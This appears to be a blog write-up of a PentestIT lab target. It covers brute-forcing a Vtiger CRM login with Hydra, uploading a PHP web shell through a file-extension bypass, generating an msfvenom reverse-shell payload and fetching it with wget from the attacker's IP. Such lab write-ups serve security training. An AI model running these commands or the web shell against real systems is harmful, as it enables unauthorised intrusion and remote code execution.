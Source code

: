 ```yaml
---
layout: post
title:  "PentestIT Lab v11 - CRM"
date:   2018-03-04 00:46:00 -0800
categories: Pentesting
---
```

Opening the browser and going to 192.168.101.10 (TCP port 80), shows a welcome page for the lab. This seems to be a blog, and further look into the HTML code, I can see references to Wordpress links. Using WPscan, I learn this site is running the Kittycatfish plugin, which is vulnerable to a SQLi ([WordPress Plugin KittyCatfish 2.2 - SQL Injection][kittycatfish_vuln]). My attempts to exploit this, either manually or through SQLmap, are unsuccessful. I suspect there's some WAF in the middle as I'm getting forbidden responses when using SQLi attempts and also when bruteforcing the Wordpress admin login form. I move on to find something else as with an WAF in the middle, it will be difficult.

From the HTML code, I see a link to http://192.168.101.10:88. Going to the link, I can see there's a Vtiger 6.3.0 web application. Further research, tells me this version is vulnerable to an [Authenticated Remote Code Execution][vtiger_vuln]. Through some web searching, I learn the default credentials are admin:admin, however, I get a invalid username or password. Time to brute force the admin's password.

I launch Burp and configure my browser to use it has a proxy. I then submit the login form with admin:admin credentials. From the Burp history, I get the POST data and the URL path I need to use. I then launch Hydra with the rockyou-60.txt wordlist from [Seclists][seclists]:

{% highlight bash %}
hydra 192.168.101.10 -s 88 http-post-form "/index.php?module=Users&action=Login:__vtrftk=sid%3A0e9ffbd5aee2325cb3254c8d41253bbd7c4bd27a%2C1518930935&username=^USER^&password=^PASS^:error=1" -l admin -P rockyou-60.txt -t 20
{% endhighlight %}

In this login form, when the login fails, you get a 302 redirect to the login page again with the message "Invalid username or password". However, Hydra doesn't follow redirects, but I've noticed that on the 302 response, the Location header contains a error=1 parameter. That's why I'm using it has the failed string.

Going back to the password brute force, after several minutes, Hydra spits the known password: <b>blackstar</b>. Now, with an authenticated session in the Vtiger CRM application, I can try to use the previous exploit found:

I create a file 1.php with the content: {% highlight php %}<? passthru($_GET['cmd']); ?>{% endhighlight %}

This uses the PHP short tags, as the application is checking if the content contains <?php.

I then go to Settings(Small gear on the top right) -> CRM Settings -> Templates -> Company Details -> Edit. I then click the Browse button to add my 1.php file, but first, I set Burp to intercept the form submit. However, there seems to be some Javascript to detect the file extension, which only permits images. I then change my 1.php to 1.jpg and submit the form again, this time with Burp intercept off. I then go to Burp's history and send that POST request to Repeater. I then change the content of the filename from 1.jpg to 1.php and send the request again, maintaing the content type as jpeg:

{% highlight php %}
...
CompanyDetailsSave
-----------------------------2787963551806245971250936184
Content-Disposition: form-data; name="logo"; filename="1.php"
Content-Type: image/jpeg

<? passthru($_GET['cmd']); ?>
...
{% endhighlight %}

Accessing the URL path <code>/test/logo/1.php?cmd=whoami</code>, will tell me that I'm running with www-data user. Sending <code>/test/logo/1.php?cmd=uname -a</code>, I can see this is a Debian Linux system. 

Now it's time to get a proper foothold into the system, so I can start doing proper enumeration. I generate a meterpreter with command:

{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<MY_VPN_IP> LPORT=443 -f elf > 1.elf
{% endhighlight %}

Launch a <code>python -m SimpleHTTPServer</code> to serve the meterpreter and from the browser execute <code>/test/logo/1.php?cmd=wget http://MY_IP:8000/1.elf -O /tmp/1.elf</code>. However, I get a gateway timeout, looks like the server is not allowing egress connections to TCP port 8000. I then tried with TCP port 80 and still no connection. Tried ping (<code>test/logo/1.php?cmd=ping -c1 -w1 MY_IP</code>), and I get no response, so in the end, it looks like there's more restrictions on the egress traffic. Looking at the file /etc/iptables.save (<code>/test/logo/1.php?cmd=cat /etc/iptables.save</code>), I can see it's allowing egress traffic only to 172.16.0.11 and 172.16.0.254:

<pre>
# Generated by iptables-save v1.4.14 on Thu Jul  4 02:14:19 2013
*filter
:INPUT ACCEPT [194:23274]
:FORWARD ACCEPT [1268:354653]
:OUTPUT ACCEPT [155:40731]

## state,lo
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -i lo -j ACCEPT

## icmp
-A INPUT -p icmp --icmp-type 8 -j ACCEPT

## ssh
-A INPUT -p tcp --dport 22 -j ACCEPT

## www
-A INPUT -p tcp --dport 80 -j ACCEPT

### DROP OTHER
-A INPUT -j DROP

## OUT
-A OUTPUT -d 172.16.0.11 -j ACCEPT
-A OUTPUT -d 172.16.0.254 -j ACCEPT

-A OUTPUT -d 172.16.0.0/24 -j DROP
</pre>

At this point, my only option was to enumerate using the web shell. I've noticed that after a few minutes, my shell was gone, so I had to upload it again. Having the request ready in Burp Repeater was handy, because I had to upload the web shell many times.

From the webshell I go to <code>/var/www/rce_token.txt</code> and get the CRM token.

[kittycatfish_vuln]: https://www.exploit-db.com/exploits/41919/
[vtiger_vuln]: https://www.exploit-db.com/exploits/38345/
[seclists]: https://github.com/danielmiessler/SecLists/tree/master/Passwords
